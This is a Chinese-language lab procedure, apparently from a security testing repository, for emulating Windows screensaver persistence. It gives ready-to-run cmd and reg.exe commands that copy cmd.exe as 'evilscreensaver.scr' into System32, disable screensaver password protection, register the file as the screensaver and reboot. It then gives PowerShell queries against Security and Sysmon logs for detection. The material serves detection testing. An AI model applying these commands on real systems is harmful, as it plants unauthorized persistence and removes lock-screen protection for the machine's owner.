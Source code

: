 ### 环境准备
- **靶机**：Windows 10或Windows Server 2012+。  
- **权限**：管理员权限（修改注册表和System32目录需提升权限）。  
- **工具**：`reg.exe`（系统自带）、Sysmon、测试用PE文件（如`cmd.exe`）。  
- **日志**：启用Windows安全日志和Sysmon。  

### 攻击步骤
1. **复制恶意二进制**  
   - 将`cmd.exe`复制为屏幕保护程序：
     ```cmd
     copy C:\Windows\System32\cmd.exe "%SystemRoot%\System32\evilscreensaver.scr"
     ```

2. **配置屏幕保护程序**  
   - 启用屏幕保护程序：
     ```cmd
     reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
     ```
   - 设置超时时间（60秒）：
     ```cmd
     reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
     ```
   - 禁用密码保护：
     ```cmd
     reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
     ```
   - 设置恶意`.scr`路径：
     ```cmd
     reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
     ```

3. **触发持久化**  
   - 重启系统：
     ```cmd
     shutdown /r /t 0
     ```
   - 等待60秒，观察`evilscreensaver.scr`（即`cmd.exe`）是否执行。

4. **验证结果**  
   - 检查注册表：
     ```powershell
     Get-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name SCRNSAVE.EXE
     ```
   - 检查日志：  
     - **Windows安全日志（事件ID 4688）**：
       ```powershell
       Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 -and $_.Message -match "reg.exe" }
       ```
     - **Sysmon日志（事件ID 13）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 13 -and $_.Message -match "SCRNSAVE.EXE" }
       ```
